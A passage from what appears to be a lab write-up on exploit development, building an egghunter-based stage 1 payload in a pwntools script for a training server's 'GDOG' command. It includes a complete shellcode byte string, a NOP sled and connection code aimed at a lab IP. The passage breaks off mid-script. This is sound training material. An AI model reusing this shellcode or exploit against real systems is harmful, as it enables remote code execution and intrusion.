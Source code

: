 ![](https://cdn-images-1.medium.com/max/800/1*uOFs1lM32LHK4gUkbePKmg.png){: .align-center}

We successfully landed on the location that we want. Let’s replace this with our `egghunter` and construct our stage 1 payload.

Our `stage 1 payload` should include the `egg` and the `shellcode`. The payload structure should look like this.

```
payload = "arzy"*2 + NOP sled + shellcode
```

Now, let’s generate our shellcode.

![](https://cdn-images-1.medium.com/max/800/1*sAGbLrJ7g3V4Ii31ly_5TQ.png){: .align-center}

To check if the egghunter can really locate our shellcode, we can add a debugging instruction (`\xcc`) before the NOP sled.

Let’s now combine everything above in our payload script.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

shellcode =  b""  
shellcode += b"\xba\x36\xdb\xa5\x76\xd9\xc4\xd9\x74\x24\xf4"  
shellcode += b"\x58\x2b\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e"  
shellcode += b"\x03\x66\xd5\x47\x83\x7a\x01\x05\x6c\x82\xd2"  
shellcode += b"\x6a\xe4\x67\xe3\xaa\x92\xec\x54\x1b\xd0\xa0"  
shellcode += b"\x58\xd0\xb4\x50\xea\x94\x10\x57\x5b\x12\x47"  
shellcode += b"\x56\x5c\x0f\xbb\xf9\xde\x52\xe8\xd9\xdf\x9c"  
shellcode += b"\xfd\x18\x27\xc0\x0c\x48\xf0\x8e\xa3\x7c\x75"  
shellcode += b"\xda\x7f\xf7\xc5\xca\x07\xe4\x9e\xed\x26\xbb"  
shellcode += b"\x95\xb7\xe8\x3a\x79\xcc\xa0\x24\x9e\xe9\x7b"  
shellcode += b"\xdf\x54\x85\x7d\x09\xa5\x66\xd1\x74\x09\x95"  
shellcode += b"\x2b\xb1\xae\x46\x5e\xcb\xcc\xfb\x59\x08\xae"  
shellcode += b"\x27\xef\x8a\x08\xa3\x57\x76\xa8\x60\x01\xfd"  
shellcode += b"\xa6\xcd\x45\x59\xab\xd0\x8a\xd2\xd7\x59\x2d"  
shellcode += b"\x34\x5e\x19\x0a\x90\x3a\xf9\x33\x81\xe6\xac"  
shellcode += b"\x4c\xd1\x48\x10\xe9\x9a\x65\x45\x80\xc1\xe1"  
shellcode += b"\xaa\xa9\xf9\xf1\xa4\xba\x8a\xc3\x6b\x11\x04"  
shellcode += b"\x68\xe3\xbf\xd3\x8f\xde\x78\x4b\x6e\xe1\x78"  
shellcode += b"\x42\xb5\xb5\x28\xfc\x1c\xb6\xa2\xfc\xa1\x63"  
shellcode += b"\x64\xac\x0d\xdc\xc5\x1c\xee\x8c\xad\x76\xe1"  
shellcode += b"\xf3\xce\x79\x2b\x9c\x65\x80\xbc\x63\xd1\x02"  
shellcode += b"\xca\x0c\x20\x12\x22\x91\xad\xf4\x2e\x39\xf8"  
shellcode += b"\xaf\xc6\xa0\xa1\x3b\x76\x2c\x7c\x46\xb8\xa6"  
shellcode += b"\x73\xb7\x77\x4f\xf9\xab\xe0\xbf\xb4\x91\xa7"  
shellcode += b"\xc0\x62\xbd\x24\x52\xe9\x3d\x22\x4f\xa6\x6a"  
shellcode += b"\x63\xa1\xbf\xfe\x99\x98\x69\x1c\x60\x7c\x51"  
shellcode += b"\xa4\xbf\xbd\x5c\x25\x4d\xf9\x7a\x35\x8b\x02"  
shellcode += b"\xc7\x61\x43\x55\x91\xdf\x25\x0f\x53\x89\xff"  
shellcode += b"\xfc\x3d\x5d\x79\xcf\xfd\x1b\x86\x1a\x88\xc3"  
shellcode += b"\x37\xf3\xcd\xfc\xf8\x93\xd9\x85\xe4\x03\x25"  
shellcode += b"\x5c\xad\x34\x6c\xfc\x84\xdc\x29\x95\x94\x80"  
shellcode += b"\xc9\x40\xda\xbc\x49\x60\xa3\x3a\x51\x01\xa6"  
shellcode += b"\x07\xd5\xfa\xda\x18\xb0\xfc\x49\x18\x91"

payload = "GDOG "  
payload += "arzy"*2  
payload += "\xcc"*4  
payload += "\x90"*100  
```